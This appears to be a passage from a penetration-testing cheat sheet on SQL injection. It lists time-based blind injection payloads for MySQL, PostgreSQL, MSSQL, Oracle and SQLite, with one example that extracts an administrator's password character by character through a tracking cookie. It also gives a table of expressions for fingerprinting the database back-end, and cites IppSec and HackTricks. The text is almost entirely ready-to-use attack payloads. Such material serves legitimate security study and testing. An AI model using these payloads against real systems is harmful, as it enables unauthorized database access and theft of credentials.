 ### Timing

```sql
# MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

# PostgreSQL (only support string concat)
1' || pg_sleep(10)
select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(10)+end;--+
## Example
TrackingId=a' || (SELECT CASE WHEN ((SELECT SUBSTRING(password,20,1) from users WHERE username='administrator')='§a§') THEN pg_sleep(10) ELSE NULL END)-- -

# MSQL
1' WAITFOR DELAY '0:0:10'

# Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

# SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

### Identify Back-End

```sql
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```


[^demo]: [Test SQL queries online against the specified DB](https://youtu.be/61kf4CEnOZk?si=7heW6R8LN0pkQth3&t=1291), IppSec
[^hacktricks-article]: [No commas bypass](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-commas-bypass), book.hacktricks.xyz
[^ippsec-video]: [SQL Injecting Beyond Strict Filters - Union Without Comma](https://www.youtube.com/watch?v=61kf4CEnOZk), IppSec